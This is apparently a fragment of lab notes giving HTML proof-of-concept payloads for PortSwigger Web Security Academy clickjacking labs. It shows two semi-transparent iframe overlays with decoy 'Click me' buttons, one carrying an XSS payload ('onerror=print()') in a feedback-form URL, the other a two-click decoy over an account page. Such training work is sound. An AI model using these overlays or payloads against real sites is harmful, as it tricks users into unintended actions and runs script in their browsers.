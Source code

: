         <style>

        	iframe {

        		position:relative;

        		width:1000;

        		height: 1000;

        		opacity: 0.1;

        		z-index: 2;

        	}

        	div {

        		position:absolute;

        		top:815;

        		left:70;

        		z-index: 1;

        	}

        </style>

        <div>Click me</div>

        <iframe

        src="https://0a810019030e42f9c050b307007d00f3.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=kdiman@kidman.com&subject=TestingVuln&message=MessageTest#feedbackResult"></iframe> 


    POC5 - Portwigger: https://portswigger.net/web-security/clickjacking/lab-multistep

        <style>
        	iframe {
        		position:relative;
        		width:1000;
        		height: 1000;
        		opacity: 0.1;
        		z-index: 2;
        	}
           .firstClick, .secondClick {
        		position:absolute;
        		top:515;
        		left:55;
        		z-index: 1;
        	}
           .secondClick {
        		top:313;
        		left:210;
        	}
        </style>
        <div class="firstClick">Click me first</div>
        <div class="secondClick">Click me next</div>
        <iframe src="https://0ab800c5033c85f9c360fb6d004000b7.web-security-academy.net/my-account"></iframe>
